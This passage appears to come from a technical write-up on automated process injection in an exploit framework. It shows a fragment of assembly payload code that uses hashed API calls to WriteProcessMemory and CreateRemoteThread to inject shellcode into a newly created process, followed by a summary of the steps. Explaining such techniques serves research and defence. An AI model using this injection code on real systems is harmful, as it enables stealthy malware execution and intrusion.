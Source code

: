 ```ruby
      ; pick up pointer to shellcode & keep it on stack
      jmp begin_of_payload
      begin_of_payload_return:  ; lpBuffer
      push eax                  ; lpBaseAddress
      push [edi]                ; hProcess
      push 0xE7BDD8C5           ; hash( "kernel32.dll", "WriteProcessMemory" )
      call ebp                  ; WriteProcessMemory(...)

      ; run the code (CreateRemoteThread())
      push ebx                  ; lpthreadID
      push ebx                  ; run immediately
      push ebx                  ; no parameter
      mov ecx,[esp-0x4]
      push ecx                  ; shellcode
      push ebx                  ; stacksize
      push ebx                  ; lpThreadAttributes
      push [edi]
      push 0x799AACC6           ; hash( "kernel32.dll", "CreateRemoteThread" )
      call ebp                  ; CreateRemoteThread(...);

      #{exitblock}              ; jmp to exitfunc or long sleep
```

It can be summarized that its function is mainly realized through assembly language. The basic process is as follows:

+ CreateProcessA creates a new process.
+ VirtualAllocEx applies for memory.
+ WriteProcessMemory writes shellcode.
+ CreateRemoteThread runs shellcode.

## Running Effect
After correctly configuring this parameter in the payload, the corresponding shellcode is generated. When the loader is used to load the generated shellcode, a new system process will be automatically created and the shellcode will be injected into the new process.

![](img/two_ways_of_automated_process_injection/2.webp)
